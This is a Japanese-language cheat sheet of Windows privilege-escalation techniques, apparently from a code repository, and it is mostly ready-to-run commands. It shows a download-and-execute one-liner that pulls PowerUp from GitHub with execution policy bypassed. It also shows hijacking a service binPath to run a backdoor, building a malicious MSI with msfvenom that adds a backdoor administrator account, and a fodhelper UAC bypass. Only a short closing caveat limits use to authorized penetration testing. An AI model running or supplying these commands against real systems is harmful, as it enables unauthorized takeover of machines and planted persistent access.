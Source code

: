 # Windows Privilege Escalation Techniques

## 情報収集

### システム情報の収集
```powershell
# システム情報
systeminfo
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"

# ホットフィックス
wmic qfe get Caption,Description,HotFixID,InstalledOn

# 環境変数
set
Get-ChildItem Env: | Format-Table -AutoSize
```

## 権限昇格の列挙

### PowerUp を使用した脆弱性スキャン
```powershell
# PowerUp のダウンロードと実行
powershell -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1'); Invoke-AllChecks"

# SharpUp を使用した脆弱性スキャン
.\SharpUp.exe audit
```

## サービス権限昇格

### 脆弱なサービスの特定と悪用
```powershell
# サービスパーミッションの確認
accesschk.exe -uwcqv "Authenticated Users" *
accesschk.exe -uwcqv "Everyone" *

# サービス設定の変更
sc qc upnphost
sc config upnphost binPath= "C:\path\to\backdoor.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc config upnphost start= auto
net start upnphost
```

## レジストリ権限昇格

### AlwaysInstallElevated
```powershell
# レジストリキーの確認
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# MSIパッケージの作成と実行
msfvenom -p windows/adduser USER=backdoor PASS=password123 -f msi -o evil.msi
msiexec /quiet /qn /i evil.msi
```

## UAC バイパス

### UAC バイパステクニック
```powershell
# Fodhelper バイパス
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "cmd.exe /c start C:\path\to\backdoor.exe" -Force
Start-Process "C:\Windows\System32\fodhelper.exe"
```

## 注意事項
- これらの技術は、許可された環境でのペネトレーションテストでのみ使用してください
- システムの重要な機能に影響を与える可能性があります
- 実環境での使用は違法となる可能性があります 